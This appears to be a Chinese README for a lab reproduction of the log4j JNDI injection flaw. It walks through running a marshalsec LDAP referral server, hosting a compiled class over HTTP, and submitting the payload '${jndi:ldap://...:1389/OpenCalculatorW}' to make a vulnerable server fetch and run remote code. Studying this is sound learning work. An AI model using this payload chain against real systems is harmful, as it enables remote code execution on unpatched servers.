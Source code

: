 # log4j JNDI注入漏洞 复现学习

## 复现方式

1. 搭建一[应用服务](./VulnerableServer)，使用存在漏洞的log4j版本记录用户输入
2. 准备[恶意脚本](./AttackerServer/HttpServer)，并为其提供一个http
   1. 此处以打开MacOS和Widnows上的计算器应用为例，编写脚本，并对其编译得到class文件
   2. 为class文件提供http服务
      ```python3 -m http.server 8000```
3. 提供一个LDAP服务，重定向到恶意脚本所在http服务
   1. LDAP服务(https://github.com/mbechler/marshalsec)
   2. 启动```java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer exploit.codebase "http://192.168.3.226:8000/#OpenCalculatorW"```
4. 对应用服务输入脚本，触发漏洞
   1. 对应用服务器输入```${jndi:ldap://192.168.3.226:1389/OpenCalculatorW}```进行攻击
5. 攻击过程流程图
   <img src='攻击流程图.png'>
   
[视频演示](https://www.bilibili.com/video/BV1aR4y1W7xR?spm_id_from=333.999.0.0)
